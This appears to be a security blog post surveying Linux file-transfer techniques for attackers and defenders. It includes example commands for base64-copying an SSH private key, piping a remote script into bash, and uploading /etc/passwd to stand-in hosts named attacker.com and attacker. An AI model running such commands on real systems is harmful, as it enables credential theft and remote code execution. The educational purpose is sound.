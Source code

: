 ```yaml
---
title: "Linux File Transfer Methods"
date: 2025-03-16 12:00:00 +0000
categories: [Linux, Security]
tags: [File Transfer, Offensive Security, Incident Response]
description: "Exploring various methods to transfer files in Linux, from traditional tools to fileless techniques."
image: "/assets/images/linux-file-transfer.png"
---
```


## Introduction

Understanding file transfer methods in Linux is crucial for both attackers and defenders. Threat actors often exploit various transfer techniques to deploy malware, while security professionals use them to detect and mitigate attacks.

This post explores multiple ways to transfer files in Linux, including network-based and fileless methods.

## **Common File Transfer Techniques**

### **1. Base64 Encoding/Decoding**
If network access is restricted, files can be encoded in Base64, copied as text, and then decoded on the target machine.
```bash
# Encode a file
cat id_rsa | base64 -w 0

# Decode the file on the target machine
echo 'encoded_string' | base64 -d > id_rsa
```

### **2. Web-Based Downloads**
Using `wget` and `curl`, files can be fetched from a remote server:
```bash
# Using wget
wget https://example.com/file.sh -O /tmp/file.sh

# Using curl
curl -o /tmp/file.sh https://example.com/file.sh
```
For fileless execution, commands can be piped:
```bash
curl https://example.com/script.sh | bash
```

### **3. Bash `/dev/tcp` Transfers**
If common tools are unavailable, Bash can be used to fetch files via raw TCP connections:
```bash
echo -e "GET /file.sh HTTP/1.1\n\n" >&3; cat <&3
```

### **4. SSH & SCP Transfers**
Using SSH, files can be securely transferred between systems:
```bash
# Download a file from a remote machine
scp user@remote:/path/to/file .

# Upload a file to a remote machine
scp file.txt user@remote:/home/user/
```

### **5. Python, PHP, and Ruby Web Servers**
If a compromised machine has Python, PHP, or Ruby, a quick web server can be started:
```bash
# Python 3 Web Server
python3 -m http.server 8000

# PHP Web Server
php -S 0.0.0.0:8000
```
The file can then be retrieved from another machine:
```bash
wget http://target_ip:8000/file.txt
```

## **Upload Operations**
For exfiltrating files from a target, `curl` can be used to upload via a malicious server:
```bash
curl -X POST https://attacker.com/upload -F 'file=@/etc/passwd' --insecure
```
Alternatively, `scp` can be used:
```bash
scp /etc/passwd user@attacker:/tmp/
```

## **Conclusion**
Understanding Linux file transfer techniques is essential for security professionals. Whether downloading, uploading, or performing fileless execution, knowing these methods enhances both attack and defense strategies.

Stay informed and practice ethical security techniques to protect your systems!
